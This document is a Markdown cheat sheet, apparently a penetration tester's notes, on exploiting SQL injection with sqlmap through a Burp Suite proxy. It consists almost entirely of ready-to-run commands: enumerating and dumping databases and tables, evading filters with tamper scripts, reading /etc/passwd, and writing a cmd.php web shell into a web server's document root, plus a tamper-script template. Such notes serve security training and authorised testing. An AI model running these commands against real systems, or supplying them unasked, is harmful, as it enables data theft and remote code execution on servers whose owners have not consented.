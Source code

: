 ```yaml
---
title: "SQL Injection"
date: 2024-6-30
tags: ["sqlmap", "sqli", "sql injection", "burpsuite"]
---
```


---
### sqlmap

[Download sqlmap](https://github.com/sqlmapproject/sqlmap)

```bash
# In Burp Suite, we can right click the request and click `copy to file` to save the request
# And add `*` to request to indicate the sql injection point
```

```bash
# Initial testing HTTP
sqlmap -r request --batch --banner --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10
```

```bash
# Initial testing HTTPS
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --force-ssl
```

```bash
# Add a string to indicate injection succeed (e.g. Invalid User vs Error Occurred)
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --string 'Invalid User'
```

```bash
# Get databases
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --dbs
```

```bash
# Get tables
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 -D <DB_NAME> --tables
```

```bash
# Dump table
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 -D <DB_NAME> -T <TABLE_NAME> --dump
```

```bash
# Dump all tables (slow)
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 -D <DB_NAME> --dump
```

```bash
# Specify technique
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --technique U
```

#### Technique

```
+------------------------+
| B: Boolean-based blind |
| E: Error-based         |
| U: Union query-based   |
| S: Stacked queries     |
| T: Time-based blind    |
| Q: Inline queries      |
+------------------------+
```

#### Advance sqlmap

```bash
# File write
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --random-agent --file-write ./cmd.php --file-dest /var/www/html/cmd.php
```

```bash
# Add payload tamper script, e.g. randomcase
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --tamper randomcase
```

```bash
# Check privileges
sqlmap -r request --privileges
```

```bash
# Read a file
sqlmap -r request --file-read=/etc/passwd
```

```bash
# Write a file
sqlmap -r request --file-write=./test.txt --file-dest=/tmp/test.txt
```

#### tamper.py template

```python
#!/usr/bin/env python3

from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    return payload
```

<small>*Note: create an empty `__init__.py` in the same folder*</small>